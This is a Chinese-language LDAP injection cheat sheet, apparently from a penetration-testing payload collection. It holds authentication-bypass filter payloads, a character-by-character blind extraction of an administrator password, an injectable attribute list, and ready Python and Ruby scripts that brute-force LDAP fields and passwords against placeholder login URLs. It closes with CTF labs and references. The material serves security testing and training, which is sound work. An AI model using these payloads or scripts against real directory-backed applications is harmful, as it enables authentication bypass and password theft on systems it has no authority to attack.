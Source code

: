 # LDAP 注入

> LDAP 注入是一种攻击方式，用于利用基于Web的应用程序，这些应用程序根据用户输入构建LDAP语句。当应用程序未能正确清理用户输入时，就可能通过本地代理修改LDAP语句。

## 概述

* [方法论](#方法论)
    * [绕过身份验证](#绕过身份验证)
    * [盲注入](#盲注入)
* [默认属性](#默认属性)
* [利用 userPassword 属性](#利用-userpassword-属性)
* [脚本](#脚本)
    * [发现有效的LDAP字段](#发现有效的ldap字段)
    * [特殊的盲LDAP注入](#特殊的盲ldap注入)
* [实验室](#实验室)
* [参考文献](#参考文献)

## 方法论

LDAP 注入是一种漏洞，当未经适当清理或转义的用户输入被用来构造LDAP查询时就会发生。

### 绕过身份验证

尝试通过注入总是为真的条件来操纵过滤器逻辑。

**示例 1**：此LDAP查询利用查询结构中的逻辑运算符，可能绕过身份验证。

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

**示例 2**：此LDAP查询利用查询结构中的逻辑运算符，可能绕过身份验证。

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

### 盲注入

此场景演示了使用类似于二进制搜索或基于字符的暴力破解技术进行LDAP盲注入，以发现敏感信息（如密码）。它依赖于LDAP过滤器根据条件是否匹配而响应不同查询的事实，而不直接揭示实际密码。

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

**LDAP过滤器分解**：

* `&`：逻辑AND操作符，意味着内部的所有条件都必须为真。
* `(sn=administrator)`：匹配sn（姓氏）属性为管理员的条目。
* `(password=X*)`：匹配密码以X开头的条目（区分大小写）。星号（*）是通配符，代表任意剩余字符。

## 默认属性

可以用于注入，例如 `*)(ATTRIBUTE_HERE=*)`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```

## 利用 userPassword 属性

`userPassword` 属性不是像 `cn` 属性那样的字符串，而是 OCTET STRING。
在LDAP中，每个对象、类型、操作符等都由OID引用：octetStringOrderingMatch（OID 2.5.13.18）。

> octetStringOrderingMatch（OID 2.5.13.18）：一种排序匹配规则，将对两个八位字节字符串值逐比特比较（大端序），直到找到差异。第一个零比特出现在一个值中但一比特出现在另一个值中时，将具有零比特的值视为小于具有一比特的值。

```bash
userPassword:2.5.13.18:=\xx (\xx 是一个字节)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## 脚本

### 发现有效的LDAP字段

```python
#!/usr/bin/python3
import requests
import string

fields = []
url = 'https://URL.com/'
f = open('dic', 'r')
world = f.read().split('\n')
f.close()

for i in world:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) # Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

### 特殊的盲LDAP注入

```python
#!/usr/bin/python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

Exploitation脚本由 [@noraj](https://github.com/noraj) 提供

```ruby
#!/usr/bin/env ruby
require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''
(0..50).each do |i|
  puts("[i] Looking for number #{i}")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] Flag: #{flag}")
      break
    end
  end
end
```

## 实验室

* [Root Me - LDAP注入 - 身份验证](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Authentication)
* [Root Me - LDAP注入 - 盲注入](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Blind)

## 参考文献

* [[欧洲网络周] - AdmYSion - Alan Marrec (Maki)](https://www.maki.bzh/writeups/ecw2018admyssion/)
* [ECW 2018 : 写入 - AdmYSsion (WEB - 50) - 0xUKN - 2018年10月31日](https://0xukn.fr/posts/writeupecw2018admyssion/)
* [如何配置OpenLDAP并执行管理LDAP任务 - Justin Ellingwood - 2015年5月30日](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
* [如何使用OpenLDAP工具管理和使用LDAP服务器 - Justin Ellingwood - 2015年5月29日](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
* [LDAP盲探器 - Alonso Parada - 2011年8月12日](http://code.google.com/p/ldap-blind-explorer/)
* [LDAP注入与盲LDAP注入 - Chema Alonso, José Parada Gimeno - 2008年10月10日](https://www.blackhat.com/presentations/bh-europe-08/Alonso-Parada/Whitepaper/bh-eu-08-alonso-parada-WP.pdf)
* [LDAP注入预防备忘单 - OWASP - 2019年7月16日](https://www.owasp.org/index.php/LDAP_injection)